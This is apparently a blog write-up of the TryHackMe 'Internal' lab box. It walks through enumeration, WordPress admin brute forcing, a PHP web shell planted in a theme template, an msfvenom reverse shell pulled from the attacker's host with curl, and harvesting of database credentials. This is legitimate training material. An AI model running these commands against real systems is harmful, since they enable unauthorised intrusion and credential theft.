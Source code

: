 +++
title = 'Internal Write Up'
date = 2024-02-14T08:50:55+02:00
draft = false
tags = ["tryhackme", "security", "pentest", "oscp"]
+++

Box: Internal\
Platform: Try Hack Me\
Grade: Medium\

## Service Enumeration

````
sudo nmap -sC -sV 10.10.52.194

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
````

### SSH

OpenSSH 7.6p1. 

### Web

Apache httpd 2.4.29.

Only default page is shown. The logical next step is to try to find the directory structure of the server.

```
gobuster dir -u http://10.10.52.194 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --no-error

http://10.10.52.194/phpmyadmin/index.php
http://10.10.52.194/blog
http://10.10.52.194/wordpress
```

It seems the site is running Worpress. Trying to log to phpmyadmin with default credentials doesn't work. Browsing to /wordpress shows that the page tries to reach out to its own domain name internal.thm. Adding that to /etc/hosts.

### Wordpress

Running WPScan to reveal potential vulnerabilities.

````
sudo wpscan -e ap -t 500 --url http://internal.thm/blog
````

WordPress 5.4.2 and no plugins installed. Which is a bummer because plugins are a great point of entry. 

Trying the WP admin panel at http://internal.thm/blog/wp-login.php to enumerate valid usernames. Admin is a valid user according to error message.

At this point I couldn't find an obvious vulnerability for WP so I resorted to trying to brute force the admin login. I'm not a fan of brute forcing anything so this should be used as a last resort if nothing else offers an opportunity. 

````
sudo wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://internal.thm/wordpress
````

Much to my surprise brute force attempt was succesful and I found the admin password. The next step is easy. Let's attempt to exploit WP Themes Editor. 

## Initial Access

So logged in as admin browsing to Theme Editor.
Edit Twenty Seventeen: 404 Template

```
# Adding a simple web shell after the initial comments.
system($_GET[cmd]);

# Testing the shell
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=id
```

````
# Enumerating OS users
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=cat+/etc/passwd

aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
````

So it seems that the system has one standard user and one service account user which suggest MySQL runs on the box. 

Webshell works but the next step is to upgrade the shell. 

## Shell Upgrade

````
# Create shell and listener
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.67.91 LPORT=4444 -f elf > shell.elf
rlwrap nc -nvlp 4444

# Enable Python web server
python -m http.server 8000

# Execute the shell
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=curl+http://10.11.67.91:8000/shell.elf+-o+/tmp/shell.elf 
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=chmod+700+/tmp/shell.elf   
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=/tmp/shell.elf 

# Upgrade to interactive
python -c 'import pty; pty.spawn("/bin/bash")'
````

## Operating System Enumeration

The config file wp-config.php reveals a hardcoded MySQL username and password.

```
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

<ss$ cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'wordpress' );
```

## MySQL Enumeration

````
show databases;
use wordpress;
show tables;
select * from wp_users;
````

Only admin user was found. It doesn't give anything new as I already have WP admin account. 




CONTINUES...